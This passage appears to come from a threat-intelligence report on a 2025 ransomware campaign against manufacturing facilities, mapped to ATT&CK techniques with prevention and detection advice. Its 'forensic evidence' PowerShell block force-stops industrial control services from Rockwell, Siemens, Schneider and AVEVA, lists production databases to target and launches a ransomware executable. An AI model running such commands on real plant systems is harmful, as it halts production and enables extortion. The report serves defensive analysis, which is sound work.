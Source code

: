 #### Prevention

**Manufacturing Data Protection**  
Implement data loss prevention solutions specifically configured for manufacturing intellectual property and production system data with coordinated threat detection capabilities.

**Production System File Monitoring**  
Deploy comprehensive file access monitoring for manufacturing documentation repositories and production system configuration files.

#### Detection

**Manufacturing Data Collection Detection**  
Monitor for bulk data access patterns affecting manufacturing intellectual property repositories and production system configuration databases.

**Source: ATT&CK data component File Access for technique T1005**

### 3.6. Coordinated Manufacturing Ransomware Deployment

| **Timestamp** | Week 8-12, Ongoing |
|---|---|
| **Techniques** | T1486 Data Encrypted for Impact to achieve TA0040 Impact<br>T1489 Service Stop to achieve TA0040 Impact |
| **Target tech** | Manufacturing Production Systems |

The coordinated Q1 2025 campaign culminated in synchronized ransomware deployment across 708 manufacturing facilities, demonstrating unprecedented coordination in timing and targeting to maximize supply chain disruption and economic impact. Analysis reveals shared deployment infrastructure and coordinated timing designed to overwhelm manufacturing incident response capabilities.

Evidence indicates sophisticated coordination across multiple ransomware groups with systematic targeting of production-critical systems and coordinated timing to maximize cascading supply chain failures.

**Forensic Evidence - Coordinated Manufacturing Ransomware Deployment:**
```powershell
# Q1 2025 Coordinated Manufacturing Ransomware Deployment Analysis
# Synchronized timing across 708 manufacturing facilities

# Manufacturing System Service Termination
Stop-Service -Name "FactoryTalk*" -Force  # Rockwell Automation systems
Stop-Service -Name "WinCC*" -Force        # Siemens manufacturing systems  
Stop-Service -Name "iHMI*" -Force         # Schneider Electric systems
Stop-Service -Name "Wonderware*" -Force   # AVEVA manufacturing platforms

# Production Database Encryption Targeting
$manufacturing_databases = @(
    "ProductionHistory", "QualityControl", "ManufacturingExecution",
    "SupplyChainPlanning", "MaintenanceManagement", "ProductionScheduling"
)

# Coordinated Ransomware Deployment
ForEach ($facility in $manufacturing_facilities) {
    Start-Process "ransomware.exe" -ArgumentList "--manufacturing-mode --facility $facility" -NoNewWindow
}
```
